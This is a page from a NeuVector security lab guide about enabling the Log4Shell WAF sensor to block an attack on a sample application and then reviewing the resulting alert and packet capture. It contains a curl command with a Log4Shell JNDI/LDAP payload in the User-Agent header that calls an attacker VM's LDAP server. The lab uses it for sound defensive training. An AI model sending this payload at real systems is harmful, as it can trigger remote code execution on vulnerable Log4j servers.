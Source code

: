 +++
title = "Add WAF rule"
weight = 22
+++

NeuVector's deep packet inspection also allow to scan and filter incoming and outgoing traffic with WAF (Web Application Firewall) and DLP (Data Loss Prevention) sensors.

Go to **Policy > WAF Sensors** to see the already pre-configured sensors. Here you can also activate your own. You can find more information at [DLP & WAF Sensors](https://open-docs.neuvector.com/policy/dlp).

To create a WAF rule that blocks the request from even reaching the sample-app

* Go to **Policy > Groups** and choose the `nv.sample-app.default` group.
* Go to the **WAF** tab
* Click on the edit button
* Choose the Log4Shell WAF sensor
* Click apply
* Set the WAF status toggle to **Enabled**

Run the attack again

Run the following commands on the victim01 VM.

```ctr
curl http://sample-app.default.${vminfo:victim01:public_ip}.sslip.io/login -d "uname=test&password=invalid" -H 'User-Agent: ${jndi:ldap://${vminfo:attacker01:public_ip}:1389/a}'
```

The request will be blocked. You can see a WAF alert under **Notifications > Security Events**.

For further forensics, you can download a package capture PCAP file directly from the alert.

You can now open this file in any tool that supports PCAP files, for example [Wireshark](https://www.wireshark.org/).

